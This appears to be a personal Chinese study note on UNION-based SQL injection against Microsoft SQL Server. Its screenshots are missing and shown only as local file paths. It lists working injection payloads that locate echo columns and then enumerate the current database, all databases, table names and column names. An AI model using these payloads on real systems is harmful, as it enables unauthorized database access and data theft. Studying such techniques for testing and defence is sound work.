 ![image-20240906093401627](C:/Users/24937/Desktop/学习/笔记/assets/image-20240906093401627-1725761554967-19.png)

------



# 联合查询注入

#### 查询回显点

```sql
id=-1'union select top 1 1,2,3 --+
```

![image-20240905145332158](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905145332158.png)

#### 获取当前数据库名

```sql
id=-1'union select top 1 1,2,db_name() --+
```

![image-20240905145557965](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905145557965.png)

#### 获取`所有`数据库名

```sql
//修改第二个`top`可以查看其它的数据库名
id=-1'union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases) --+
```

![image-20240905145908249](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905145908249.png)

#### 获取表名

```sql
id=-1'union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables) --+
```

![image-20240905150231663](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905150231663.png)

#### 获取字段名

```sql
id=-1'union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users') --+
```

![image-20240905150521864](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905150521864.png)

![image-20240905150538788](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905150538788.png)
